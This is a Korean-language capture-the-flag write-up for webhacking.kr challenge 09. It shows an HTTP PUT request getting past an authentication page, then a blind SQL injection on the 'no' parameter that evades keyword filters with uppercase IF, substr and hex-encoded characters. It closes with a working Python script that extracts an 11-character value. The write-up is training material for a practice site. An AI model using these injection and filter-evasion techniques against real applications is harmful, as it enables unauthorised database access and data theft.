 ================================================================================================================
[webhacking.kr] 09
================================================================================================================


.. uml::
	
	@startuml

	start

    :Source analysis;

    :Blind SQL Injection;
    
	stop

	@enduml

|

Source analysis
================================================================================================================

최초 접속 시 다음과 같은 인증 페이지가 뜬다.

.. image:: ../_images/web-09_1.png
        :align: center

해당 인증 페이지시 다른 메소드로 접속해본다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-09/"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.put(url, cookies=cookies, verify=False)

    print r.content

정상적으로 페이지가 출력된다.

.. code-block:: html

    <html>
    <head>
    <title>Challenge 9</title>
    </head>
    <body>
    <a href=?no=1>1</a>&nbsp;<a href=?no=2>2</a>&nbsp;<a href=?no=3>3</a>&nbsp;<form method=get action=index.php>
    Password : <input type=text size=10 maxlength=11 name=pw><input type=submit>
    </form>
    </body>
    </html>

3개의 페이지가 href 되어 있는데 어떤 내용이 있는지 확인해본다.

?no=1일 경우 페이지

.. code-block:: html

    <html>
    <head>
    <title>Challenge 9</title>
    </head>
    <body>
    Apple<form method=get action=index.php>
    Password : <input type=text size=10 maxlength=11 name=pw><input type=submit>
    </form>
    </body>
    </html>

?no=2일 경우 페이지

.. code-block:: html

    <html>
    <head>
    <title>Challenge 9</title>
    </head>
    <body>
    Banana<form method=get action=index.php>
    Password : <input type=text size=10 maxlength=11 name=pw><input type=submit>
    </form>
    </body>
    </html>

?no=3일 경우 페이지

.. code-block:: html

    <html>
    <head>
    <title>Challenge 9</title>
    </head>
    <body>
    <b>Secret</b><br><br>hint : length = 11<br>column : id,no

마지막 페이지를 보니 길이가 11이라는 힌트가 존재하고 컬럼명이 id와 no라고 되어 있다.

|

Blind SQL Injection
================================================================================================================

해당 문제의 페이지는 no를 통해 페이지가 리다이렉트되기 때문에, 다음과 같은 쿼리문으로 이루어져 있을 것이다.

.. code-block:: sql

    SELECT ? FROM ? WHERE no=?

그렇다면 if문을 이용하여 참이 되면 2페이지를, 거짓이 되면 3페이지를 출력하도록 true/false를 지정해준다.
또한, id 컬럼이 같은 테이블에 있다고 가정하여 쿼리문을 입력해보자.


.. code-block:: sql

    SELECT ? FROM ? WHERE no=if((substring(id,1,1)in('a')),2,3)

Access Denied가 나는 것을 보니 필터링이 걸려있다.

.. code-block:: sql

    SELECT ? FROM ? WHERE no=IF((substr(id,1,1)in('a')),3,0)

if문을 대문자로 바꾸고 substring을 substr으로 바꾼 후 다시 쿼리문을 전송한 결과 오류 페이지는 출력되지 않았으나, 정상적인 페이지 리턴이 되지 않았다.

single quote가 정상적으로 출력되기 위해서는 'a'값을 hex형식으로 입력하여야한다.

.. code-block:: python

    import requests

    pw =""
    for i in range(1,12):
        for j in range(33,126):
            cookie = {
                "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6",
            }
            url = "http://webhacking.kr/challenge/web/web-09/?no=IF((substr(id,%d,1)in(%s)),3,0)" % (i,str(hex(j)))
            r = requests.put(url, cookies=cookie, verify=False)
            q = r.content
            if "Secret" in q:
                pw += chr(j)
                print pw
                break

    print pw

